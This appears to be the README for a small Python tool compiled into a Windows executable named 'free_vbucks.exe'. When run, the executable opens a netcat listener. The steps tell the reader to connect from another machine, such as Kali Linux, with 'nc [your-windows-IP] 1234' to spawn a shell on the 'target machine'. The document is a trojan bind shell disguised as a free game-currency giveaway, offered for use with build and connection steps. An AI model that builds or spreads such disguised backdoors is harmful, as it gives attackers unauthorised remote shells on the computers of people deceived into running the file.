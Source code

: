 Pre-requisites:
Have Python and cx_Freeze installed

How to install cx_Freeze:
run "pip install cx_Freeze" in your terminal

How it works:

1. Open your code editor (or cmd) and run "python setup.py build" in the terminal and a "Build" folder should be generated
2. Open the folder inside the "Build" folder and run "free_vbucks.exe" in your Windows system
3. Try "nc [your-windows-IP] 1234" on another machine (i.e. Kali Linux)
4. You should be able to spawn a shell on your target machine

(Only works for machines on the same local network)

Note: The netcat will run and listen only one time each time you run the executable. To re-enable Netcat to listen for incoming connections, simply run the executable once more.
